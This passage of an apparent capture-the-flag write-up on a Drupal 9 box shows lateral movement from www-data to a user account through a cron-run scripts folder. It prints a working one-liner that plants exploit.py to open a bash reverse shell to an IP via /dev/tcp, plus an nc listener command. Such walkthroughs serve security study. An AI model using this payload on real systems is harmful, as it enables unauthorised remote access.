 <img width="749" alt="image" src="https://user-images.githubusercontent.com/59768512/164413183-b75a837e-0178-47c0-93b5-fd7dfcb6c662.png">


The Drupal version is Drupal 9:
![image](https://user-images.githubusercontent.com/70077872/164648153-d13cb920-33c4-4213-83f7-b7c1da267191.png)







![image](https://user-images.githubusercontent.com/70077872/164681966-e03a50e1-90cf-4c51-b440-9ac737f28760.png)


![image](https://user-images.githubusercontent.com/70077872/166906144-583269d0-9c37-4ebc-8404-3d39e7c0de05.png)

# Last


After we have gained access to `www-data`, it is time to see if we can gain access the first user. Firstly, by going to `/home/user` reveals that there are is a folder called "coding_project". This folder contains a README file, a shell script and a Scripts folder. As the README file states, the user is tired of people asking him/her to run Python files, so the file states: "to avoid further work on my part you can run any file as me instead!". This is a potential vulnerability as files put in the folder `/scripts` is essentially run with the privileges of the user:

![image](https://user-images.githubusercontent.com/70077872/167387362-d4e82870-b257-4335-8acb-e25c97628496.png)


The `run_files.sh` is just a script that enter the script folder, runs the file(s) with python3, and removes it afterwards. Here, we can put in a file run as the user to try to gain access to the user account:

![image](https://user-images.githubusercontent.com/70077872/167388008-555a28ea-6279-40cc-841b-08f8c5f108c5.png)

A common attack vector would be to execute a python file that runs a reverse shell back to our machine. Since the script is run with user privileges, the reverse shell will ensure the connection runs with the user; giving us access. To execute this, and to allow python to run bash commands, we use the `os.system()` function which allows us to execute any command. The following code is a one-liner which is able to exploit this vulnerability:

![image](https://user-images.githubusercontent.com/70077872/167413332-dadfb1b2-d2f8-4c73-a4a1-e59d99054a63.png)


`echo "import os;os.system(\"/bin/bash -c \'bash -i >& /dev/tcp/10.225.149.204/9995 0>&1\'\")" > exploit.py`

When the cronjob automatically runs the `run_files.sh` which runs the `exploit.py` file, we get a connection using `nc -nlvp 9995` for listening on any incoming connections:

![image](https://user-images.githubusercontent.com/70077872/167413710-d34f73d1-0c22-4cb5-b303-1a3cb982bb11.png)

